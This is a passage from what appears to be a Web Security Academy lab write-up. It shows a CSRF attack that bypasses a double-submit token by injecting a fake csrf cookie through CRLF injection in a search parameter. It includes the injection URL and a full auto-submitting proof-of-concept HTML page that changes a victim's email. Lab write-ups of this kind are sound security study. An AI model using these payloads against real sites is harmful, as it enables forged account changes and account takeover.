 That show a prove that you may perform a CSRF attack with the help of CRLF not even in the lab but in the wild.

```bash
/search=test%0d%0aSet-cookie:%20csrf=fake%3b%20SameSite=None
```

![Untitled](CSRF%20fd5308ba97fe4191835760cf7369a4dd/Untitled%202.png)

Look at the response we can see that the injection is successfully inject a new field in the return response from the server that contain the new field controlled by the attacker.

Then, we already known that in the overall section, request from the client will double check by the token send from both the cookie field and the hidden input field.

Return to the user profile field, we see that the token is overwritten to the fake one.

![Untitled](CSRF%20fd5308ba97fe4191835760cf7369a4dd/Untitled%203.png)

```bash
POC:
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://[ID].web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="aloha&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://[ID].web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>

  </body>
```
